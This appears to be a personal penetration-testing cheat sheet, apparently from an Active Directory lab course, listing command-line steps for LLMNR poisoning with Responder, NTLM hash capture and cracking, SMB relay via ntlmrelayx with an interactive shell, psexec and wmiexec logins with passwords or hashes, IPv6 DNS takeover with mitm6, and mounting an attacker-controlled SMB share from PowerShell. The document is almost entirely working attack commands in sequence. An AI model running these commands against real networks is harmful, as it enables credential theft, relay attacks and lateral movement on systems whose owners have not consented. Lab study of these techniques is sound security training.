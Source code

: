 
![[Pasted image 20241110154004.png]]

# Initial Attack Vectors

1st
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
sudo responder -I eth0 -dwPv
```

```
\\<Attacker_IP>
```

Make sure that SMB and HTTP is on


<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>

2nd 

- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt with SMB signing off)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>

3rd 

- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```

```
psexec.py <username>@<IP_192.168.17.140> -hashes :
```

wmiexec.py or smbexec.py

<hr>

4th

- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```


<hr>

5th

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```


<hr>

----------------------------------------------------END----------------------------------------------







# SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

